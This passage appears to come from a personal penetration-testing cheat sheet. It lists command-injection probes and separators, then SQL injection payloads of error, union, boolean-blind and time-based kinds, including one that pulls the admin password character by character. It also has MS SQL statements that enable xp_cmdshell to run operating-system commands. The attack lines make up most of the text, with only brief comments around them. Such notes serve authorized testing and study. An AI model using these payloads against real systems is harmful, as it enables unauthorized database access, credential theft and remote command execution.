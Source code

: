 Explanation on config files:
- [web.confg details](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
- [htaccess](https://www.onsecurity.io/blog/file-upload-checklist/#uploading-a-htaccess-file)
### Command Injection

```powershell
# Command to check what's running on windows
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

# command seperators
; # in powershell and bash
& # in cmd
&& # in everywhere but second command runs when first succeed
```

```shell
$IFS #instead of space

# To verify for command injection possibility
$?    # means the string is inside "" double quotes
$(whoami)  # to execute commands within echo ""
```
### SQLI Payloads

MySQL, Microsoft SQL Server, PostgreSQL, and Oracle are the most popular database implementations
[_MySQL_](https://www.mysql.com/) is one of the most deployed database variants, along with [_MariaDB_](https://mariadb.org/), an open-source fork of MySQL.
- [PayloadAllTheThings SQLI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [Blind SQLI Manual exploitation](https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345)
- [PentestMonkey Cheatsheet](https://pentestmonkey.net/category/cheat-sheet)

```SQL
''+!@#$  -- all the special characters    

'offsec' OR 1=1 -- //
# We are doing that to raise an error in order to get an output of version
'' or 1=1 in (select @@version) -- //      

-- Union Based
-- Verifying exact number of columns
'' ORDER BY 1-- //
'%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //

-- boolean based
'admin' AND BINARY SUBSTRING((SELECT password FROM users WHERE username = 'admin'),FUZZ_INDEX,1) = 'FUZZ_CHAR';#---

-- Time Based 
'' AND IF (1=1, sleep(3),'false') -- //
'admin' AND IF (SUBSTRING(@@version, FUZZ_INDEX, 1) = FUZZ_CHAR, sleep(3),'false');#---

-- MS SQL CODE EXECUTION
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXECUTE xp_cmdshell 'whoami'; EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';

```
Check for ffuf commands for Blind SQLi [[Commands - Quick Reference Cheatsheet]]
## 🧑 Client Side Payloads
